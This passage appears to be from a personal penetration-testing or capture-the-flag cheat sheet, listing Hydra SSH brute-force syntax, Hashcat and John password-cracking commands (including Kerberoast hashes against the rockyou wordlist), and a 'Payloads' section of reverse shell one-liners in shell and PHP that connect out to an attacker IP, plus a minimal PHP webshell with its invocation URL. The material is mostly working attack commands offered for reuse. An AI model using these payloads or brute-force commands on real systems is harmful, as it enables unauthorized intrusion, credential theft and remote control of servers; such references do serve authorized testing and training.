 **SSH :**  
```
hydra -l $USER -P $WORDLIST ssh://$HOST:$PORT
```
Example :  
`hydra -l alice -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10:2222`  

-f : quits after first login/password found  

- Hashcat  

I tend to prefer John over hashcat since it's (imho) easier to use, but for faster results or mass cracking Hashcat is way better since it uses the GPU.  
```
hashcat -m $HASH-TYPE -a $MODE $HASH $WORDLIST
```
Example (Kerberoast) :  
`hashcat -m 13100 -a 0 spn.hash /usr/share/wordlists/rockyou.txt`  

Hashcat is also useful for generating custom wordlists with a set of passwords as input, like this :  
```
hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule $PASS_FILE_IN > $PASS_FILE_OUT
```

- John  

```
john $HASH $WORDLIST
```
It's often as easy as "give him the password and the wordlist and let him do its thing", it automatically finds the correct hash format and tries to crack it.  

## Payloads

Some reverse shell payloads I've found successful :  

- shell  

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

- PHP  

```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>
```
or
```
$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");
```

- Webshells  

Minimal webshell :
```
<?php echo system(($_REQUEST['cmd'])); ?>
```
Execute with :  
`http://host/page?cmd=whoami`  
